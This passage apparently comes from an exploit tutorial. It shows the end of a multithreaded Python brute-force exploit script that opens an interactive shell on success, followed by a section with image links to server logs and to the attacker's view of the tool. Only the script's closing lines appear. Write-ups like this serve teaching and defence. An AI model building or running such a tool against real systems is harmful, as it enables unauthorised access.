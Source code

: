 ```python
        threads.append(t)

    # Wait until one thread reports success.
    while not shell_found.is_set():
        time.sleep(0.5)

    print("[*] Exploit succeeded! Launching interactive shell.")
    interactive_shell(successful_socket)

if __name__ == "__main__":
    main()
```

This version is multi threaded and tracks attempts as well as other helpful data.

**8. Putting it all together**  

On the server side, the defenders would see:
![Image showing the server logs during brute force attempts](img/Server_In_Action.png "Server logs during brute force attempts")

The attacker sees: 
![Screenshot showing the brute force tool actively attempting to exploit the application](img/Tool_In_Action.png "Brute force tool actively attempting to exploit the application")
